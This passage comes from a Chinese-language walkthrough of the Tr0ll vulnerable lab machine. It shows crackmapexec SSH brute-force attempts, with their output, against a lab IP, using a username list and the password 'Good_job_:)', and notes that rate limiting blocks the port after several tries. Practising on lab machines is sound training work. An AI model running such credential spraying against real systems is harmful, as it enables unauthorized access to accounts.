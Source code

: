 爆破

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ crackmapexec ssh 10.10.10.13 -u which_one_lol.txt -p Pass.txt --continue-on-success
SSH         10.10.10.13     22     10.10.10.13      [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         10.10.10.13     22     10.10.10.13      [-] maleus:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] ps-aux:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] felux:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] Eagle11:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] genphlux < -- Definitely not this one:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] usmc8892:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] blawrg:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] wytshadow:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] vis1t0r:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] overflow:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13

```

发现刚开始显示认证失败，后面就开始提示说不能够连接到22端口，猜测ssh服务可能是做了爆破的限制机制

把数据后面的放到前面

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ cat which_one_lol.txt                                                              
blawrg
wytshadow
vis1t0r
overflow
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
```

但是还是爆破失败

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Tr0ll]
└─$ crackmapexec ssh 10.10.10.13 -u which_one_lol.txt -p Pass.txt --continue-on-success
SSH         10.10.10.13     22     10.10.10.13      [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         10.10.10.13     22     10.10.10.13      [-] blawrg:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] wytshadow:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] vis1t0r:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] overflow:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] maleus:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] ps-aux:Good_job_:) Authentication failed.
SSH         10.10.10.13     22     10.10.10.13      [-] felux:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] Eagle11:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] genphlux < -- Definitely not this one:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] usmc8892:Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
SSH         10.10.10.13     22     10.10.10.13      [-] :Good_job_:) [Errno None] Unable to connect to port 22 on 10.10.10.13
```
